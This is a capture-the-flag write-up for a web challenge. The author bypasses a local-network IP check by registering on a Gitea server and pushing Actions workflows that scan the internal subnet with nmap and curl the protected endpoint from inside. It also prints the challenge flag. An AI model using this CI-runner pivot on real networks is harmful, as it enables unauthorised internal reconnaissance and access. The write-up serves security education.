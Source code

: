 # Web: Pipeline Problems (326)

I've been working on a new project, my new "flag API" which gives out flags on demand. I even have a nice setup for rapid testing and deployment. Can you test it out and see how secure it is?

[http://flag-api.challs.uscybergames.com:8000](http://flag-api.challs.uscybergames.com:8000)

Author: [tsuto](https://github.com/jselliott)

## Writeup

When we go to the website, we are met with an API listing.

![Image 1](Screenshots/1.png)

The title being "Pipeline Problems" seems to imply that the pipeline is the source of the exploit in this challenge, so if we head to `/source`, we can then see that there is a Git server, hosted on Gitea.

![Image 2](Screenshots/2.png)

And from here, we can sign up and log in to continue!

Exploring, we can find the code for this flag server.

![Image 3](Screenshots/3.png)

Looking at `src/main.py`, we can find something interesting...

```py
@app.middleware('http')
async def trusted_ip_middleware(request: Request, call_next):
    ip = str(request.client.host)

    # Only allow local network to access flag
    if request.scope['path'] == "/get_flag" and ipaddress.ip_address(ip) not in ipaddress.ip_network('10.0.0.0/24'):
        return JSONResponse(content="403 - Forbidden: Access is denied", status_code=403)

    return await call_next(request)
```

So, we can only access, the `/get_flag` path from within the local network. 

Also, in `.gitea/workflows/demo.yaml`, we can find that this server is hosted on Gitea.

![Image 4](Screenshots/4.png)

So, if we can use Gitea Actions, maybe we can access the server on this IP?

If we create our own repository with a workflow with the following code, we can start to look around this network.

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: apt update
      - run: apt install nmap -y
      - run: nmap 10.0.0.0/24
```

However, we also need to enable Actions...

![Image 5](Screenshots/5.png)

Looking at our action, we find this:

![Image 6](Screenshots/6.png)

Only `10.0.0.9` has HTTP, though only port 8000 is actually open. However, this is also the same port we got from the description.

So what happens when we use curl on this?

Using this workflow now:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: curl -v 10.0.0.9:8000/get_flag
```

However, we only see that there's 40 bytes of data...

![Image 7](Screenshots/7.png)

Now changing to this:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo $(curl -v 10.0.0.9:8000/get_flag)
```

And now, we can get the flag!

![Image 8](Screenshots/8.png)

And our flag is `SIVUSCG{thr0ugh_th3_p1p3l1n3}`!
